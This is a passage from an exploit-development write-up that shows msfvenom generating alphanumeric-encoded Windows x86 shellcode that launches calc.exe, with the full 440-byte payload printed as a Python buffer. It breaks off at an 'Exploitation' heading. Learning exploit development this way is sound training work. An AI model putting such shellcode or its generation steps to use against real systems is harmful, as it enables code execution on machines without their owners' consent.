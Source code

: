 Lets generate the shellcode to pop ```calc.exe``` using msfvenom,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/exec CMD=calc.exe -b '\x00' -f python BufferRegister=ESP -e x86/alpha_mixed
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 440 (iteration=0)
x86/alpha_mixed chosen with final size 440
Payload size: 440 bytes
Final size of python file: 2145 bytes
buf =  b""
buf += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x39\x6c\x6d\x38\x6b\x32\x65\x50\x57\x70\x57\x70\x31"
buf += b"\x70\x4f\x79\x6a\x45\x76\x51\x39\x50\x63\x54\x4e\x6b"
buf += b"\x76\x30\x64\x70\x6e\x6b\x32\x72\x44\x4c\x4e\x6b\x30"
buf += b"\x52\x36\x74\x4e\x6b\x32\x52\x46\x48\x44\x4f\x78\x37"
buf += b"\x50\x4a\x35\x76\x74\x71\x69\x6f\x6e\x4c\x47\x4c\x43"
buf += b"\x51\x71\x6c\x66\x62\x56\x4c\x65\x70\x7a\x61\x7a\x6f"
buf += b"\x64\x4d\x65\x51\x39\x57\x79\x72\x4b\x42\x31\x42\x36"
buf += b"\x37\x6e\x6b\x56\x32\x56\x70\x4c\x4b\x32\x6a\x75\x6c"
buf += b"\x6c\x4b\x62\x6c\x44\x51\x30\x78\x6b\x53\x30\x48\x35"
buf += b"\x51\x4e\x31\x32\x71\x4e\x6b\x31\x49\x67\x50\x73\x31"
buf += b"\x6b\x63\x4e\x6b\x37\x39\x36\x78\x6d\x33\x77\x4a\x52"
buf += b"\x69\x4e\x6b\x54\x74\x4e\x6b\x76\x61\x49\x46\x56\x51"
buf += b"\x69\x6f\x6c\x6c\x6a\x61\x4a\x6f\x36\x6d\x35\x51\x58"
buf += b"\x47\x65\x68\x6b\x50\x62\x55\x59\x66\x73\x33\x31\x6d"
buf += b"\x7a\x58\x75\x6b\x31\x6d\x64\x64\x52\x55\x59\x74\x62"
buf += b"\x78\x4e\x6b\x62\x78\x44\x64\x73\x31\x4a\x73\x62\x46"
buf += b"\x4c\x4b\x54\x4c\x62\x6b\x6c\x4b\x52\x78\x77\x6c\x36"
buf += b"\x61\x38\x53\x4e\x6b\x47\x74\x6e\x6b\x45\x51\x4e\x30"
buf += b"\x4c\x49\x53\x74\x71\x34\x76\x44\x61\x4b\x73\x6b\x50"
buf += b"\x61\x33\x69\x53\x6a\x30\x51\x79\x6f\x6d\x30\x71\x4f"
buf += b"\x53\x6f\x32\x7a\x6c\x4b\x72\x32\x58\x6b\x4e\x6d\x73"
buf += b"\x6d\x51\x7a\x66\x61\x4c\x4d\x4b\x35\x4f\x42\x57\x70"
buf += b"\x45\x50\x73\x30\x76\x30\x50\x68\x64\x71\x6c\x4b\x62"
buf += b"\x4f\x4e\x67\x4b\x4f\x6b\x65\x6f\x4b\x7a\x50\x78\x35"
buf += b"\x4c\x62\x71\x46\x35\x38\x6f\x56\x6d\x45\x4f\x4d\x4d"
buf += b"\x4d\x4b\x4f\x6b\x65\x65\x6c\x74\x46\x63\x4c\x67\x7a"
buf += b"\x4f\x70\x39\x6b\x6b\x50\x50\x75\x36\x65\x4f\x4b\x67"
buf += b"\x37\x45\x43\x53\x42\x30\x6f\x72\x4a\x73\x30\x31\x43"
buf += b"\x39\x6f\x79\x45\x31\x73\x53\x51\x50\x6c\x75\x33\x74"
buf += b"\x6e\x32\x45\x70\x78\x32\x45\x57\x70\x41\x41"
```

## Exploitation
